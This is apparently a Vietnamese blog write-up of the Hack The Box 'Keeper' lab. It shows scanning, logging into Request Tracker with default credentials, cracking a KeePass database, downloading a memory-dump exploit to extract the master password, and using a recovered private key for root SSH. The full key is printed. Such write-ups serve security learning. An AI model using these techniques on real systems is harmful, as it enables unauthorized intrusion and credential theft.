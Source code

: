 ```yaml
---
layout: post
author: Neo
title: HackTheBox - Keeper
date: 2023-08-27
tags:
  - web
  - linux
  - ssh
  - keepass
  - hackthebox
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

## Reconnaissance and Scanning

Port scan, tôi dùng [RustScan](https://github.com/RustScan/RustScan)

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Truy cập thử vào web với port 80

![web](/assets/img/2023-08-27-HTB-Keeper/1.png)

Tôi sẽ thêm hosts để truy cập domain này

![ticket](/assets/img/2023-08-27-HTB-Keeper/2.png)

Tôi có một vài thông tin về page này: `best practical`, `RT 4.4.4+dfsg-2ubuntu1 (Debian)`. Tìm kiếm thông tin trên gu gồ và tôi có tài khoản mặc định ở [đây](https://docs.bestpractical.com/rt/4.4.4/README.html)
Thử đăng nhập với tài khoản mặc định `root`:`password`

![rt](/assets/img/2023-08-27-HTB-Keeper/3.png)

Dạo quanh page này, tôi tìm thấy user khác ở *Admin -> Users -> Select*

![lnorgaard](/assets/img/2023-08-27-HTB-Keeper/4.png)

Thử đăng nhập ssh bằng user mới

## SSH

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh lnorgaard@10.10.11.227 
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sun Oct 15 13:42:38 2023 from 10.10.14.61
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

Tôi có `user.txt` ở đây

## Privilege escalation

Bên cạnh `user.txt`, tôi còn 1 file zip nữa `RT30000.zip`. Unzip nó và tôi được 2 file mới

```python
lnorgaard@keeper:~$ unzip /home/lnorgaard/RT30000.zip 
Archive:  /home/lnorgaard/RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

Unzip được 2 file. Với file passcodes, khi tìm hiểu cách mở file này, tôi tìm được cách crack password từ file kdbx với `john`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2john passcodes.kdbx > passcodes.txt  
┌──(root㉿kali)-[/home/kali/keepass-dump-masterkey]
└─# john -w=/usr/share/wordlists/rockyou.txt.gz passcodes.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: UTF-16 BOM seen in wordlist. File may not be read properly unless you re-encode it
0g 0:00:12:40 DONE (2023-10-15 13:48) 0g/s 180.5p/s 180.5c/s 180.5C/s ����ʒ:�!=*$�\3T�x#a�U�L:�-*��(>8�^Y..R��4�^o��R��)����-�lQ�{�v{AC������
Session completed. 
```

Không có kết quả.

Tìm kiếm về KeePass và dump, tôi tìm được [CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey). Clone nó về và tải nó lên máy

```python
┌──(root㉿kali)-[~kali]
└─# git clone https://github.com/CMEPW/keepass-dump-masterkey.git
Cloning into 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), 32.52 KiB | 756.00 KiB/s, done.               
┌──(root㉿kali)-[~kali]
└─# cd keepass-dump-masterkey 
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...

```

```python
lnorgaard@keeper:~/RT30000$ wget http://10.10.14.130:4444/poc.py
--2023-10-15 19:20:25--  http://10.10.14.130:4444/poc.py
Connecting to 10.10.14.130:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2735 (2.7K) [text/x-python]
Saving to: ‘poc.py’

poc.py                                                          100%[====================================================================================================================================================>]   2.67K  --.-KB/s    in 0.004s  

2023-10-15 19:20:25 (620 KB/s) - ‘poc.py’ saved [2735/2735]

```

```python
lnorgaard@keeper:~/RT30000$ python3 poc.py -d KeePassDumpFull.dmp
2023-10-15 19:42:03,381 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Tôi không hiểu lắm về các password này, tìm kiếm về các tool keepass trên kali tôi tìm được `keepass2`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2
```

![keepass](/assets/img/2023-08-27-HTB-Keeper/5.png)

![password](/assets/img/2023-08-27-HTB-Keeper/6.png)

Sau khi add file kdbx, tôi cần phải nhập password. Vậy thì tôi sẽ thử nhập từng password ở phần dump đã tìm được phía trên. Tuy nhiên thì không có cái nào được. Tôi thử sao chép cái password đó lên Gu gồ và được Gu gồ gợi ý sang 1 kết quả khác

![ideas](/assets/img/2023-08-27-HTB-Keeper/7.png)

![ideas](/assets/img/2023-08-27-HTB-Keeper/8.png)

Đoạn đầu tiên rất giống với password của tôi nên tôi sẽ thử nó

![pass](/assets/img/2023-08-27-HTB-Keeper/9.png)

Vẫn không được. Nhưng tôi thử viết thường tất cả thì được

![key](/assets/img/2023-08-27-HTB-Keeper/10.png)

Tôi có 1 PuTTY key ở đây. Lưu nó về dưới tên root.ppk và sử dụng `puttygen` để generate được private key của root.

```python
┌──(root㉿kali)-[/home/kali]
└─# cat root.ppk 
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

```python
┌──(root㉿kali)-[/home/kali]
└─# puttygen root.ppk -O private-openssh -o root.pem
```

Login vào ssh

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh -i root.pem root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sun Oct 15 14:41:25 2023 from 10.10.14.61
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls /root
root.txt  RT30000.zip  SQL
root@keeper:~# 
```

